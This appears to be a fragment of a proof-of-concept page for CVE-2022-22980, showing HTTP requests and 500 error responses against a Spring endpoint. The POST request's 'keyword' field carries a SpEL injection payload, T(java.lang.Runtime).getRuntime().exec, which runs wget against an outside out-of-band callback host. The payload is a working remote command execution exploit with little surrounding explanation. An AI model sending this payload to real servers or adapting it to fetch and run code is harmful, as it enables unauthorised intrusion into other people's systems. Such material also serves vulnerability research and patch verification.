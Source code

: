 ```
HTTP/1.1 500 
Content-Type: application/json
Date: Wed, 22 Jun 2022 14:21:20 GMT
Connection: close
Content-Length: 112

{
  "timestamp": "2022-06-22T14:21:20.604+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "path": "/v1/user/get"
}


```

[![](https://user-images.githubusercontent.com/16391655/176213046-8658f4df-25f4-4ef9-a479-236bb8fc3f9a.png)](https://user-images.githubusercontent.com/16391655/176213046-8658f4df-25f4-4ef9-a479-236bb8fc3f9a.png) [![](https://user-images.githubusercontent.com/16391655/176213052-55c0e4f9-63f1-427d-9ff4-24cd1f3973f9.png)](https://user-images.githubusercontent.com/16391655/176213052-55c0e4f9-63f1-427d-9ff4-24cd1f3973f9.png) [![](https://user-images.githubusercontent.com/16391655/176213055-ed643850-ef69-4222-b935-f72bb8fd1578.png)](https://user-images.githubusercontent.com/16391655/176213055-ed643850-ef69-4222-b935-f72bb8fd1578.png)

```
POST /v1/user/get HTTP/1.1
Host: vulnerablehost:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 116

keyword=T(java.lang.Runtime).getRuntime().exec('wget+og8ycpq0w3gg2mzz3t2b26gwnntgh5.oastify.com/CVE-2022-22980')


```

```
HTTP/1.1 500 
Content-Type: application/json
Date: Wed, 22 Jun 2022 14:36:10 GMT
Connection: close
Content-Length: 112

{
  "timestamp": "2022-06-22T14:36:10.827+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "path": "/v1/user/get"
}


```
